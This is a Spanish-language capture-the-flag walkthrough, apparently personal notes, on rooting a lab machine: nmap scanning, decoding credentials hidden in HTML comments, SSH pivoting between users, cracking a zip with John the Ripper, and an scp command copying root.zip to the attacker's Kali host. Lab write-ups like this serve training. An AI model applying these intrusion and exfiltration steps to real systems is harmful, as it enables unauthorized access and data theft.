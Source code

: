 Hacemos el escaneo con nmap:
![[Pasted image 20230925091918.png]]
Y esta es la web:
![[Pasted image 20230925091928.png]]
Si vemos el código fuente vemos este comentario:
![[Pasted image 20230925092052.png]]
Por lo que accedemos aquí:
![[Pasted image 20230925092109.png]]
Y volvemos a ver otro comentario:
![[Pasted image 20230925092124.png]]
![[Pasted image 20230925092136.png]]
Y en la parte de la derecha del todo vemos unas líneas que ponen user y abajo del todo una pass:
```bash
<!-- USER .- .-.. .. -.-. . -->
<!-- PASS 53586470624778486230526c5a58426c63673d3d -->
```
![[Pasted image 20230925092308.png]]
![[Pasted image 20230925092215.png]]
Sacamos la contraseña con cyberchef aplicándole el filtro de magic:
![[Pasted image 20230925092500.png]]
Y sacamos el user de la misma forma:
![[Pasted image 20230925092523.png]]
```bash
alice:IwillGoDeeper
```
Probamos en acceder vía ssh y vemos que funciona:
![[Pasted image 20230925092649.png]]
Viendo archivos ocultos nos encontramos con un .bob.txt:
![[Pasted image 20230925092822.png]]
```bash
535746745247566c634556756233566e61413d3d
```
![[Pasted image 20230925092857.png]]
Que nos extrae lo siguiente:
```bash
IamDeepEnough
```
Y usando esta clave nos convertimos en el usuario bob:
![[Pasted image 20230925092957.png]]
Y dentro de la raíz nos encontramos con un archivo zip:
![[Pasted image 20230925093026.png]]
Vamos a enviarnos este archivo por scp a nuestra máquina atacante:
```bash
scp root.zip kali@192.168.0.63:/home/kali/Desktop/
```
![[Pasted image 20230925093528.png]]
![[Pasted image 20230925093535.png]]
Y tenemos una contraseña que tendremos que crackear usando john the ripper:
![[Pasted image 20230925093604.png]]
Y vemos que la contraseña es bob:
![[Pasted image 20230925093653.png]]
Y ya tenemos la password de root:
```bash
root:IhateMyPassword
```
![[Pasted image 20230925093713.png]]
![[Pasted image 20230925093739.png]]
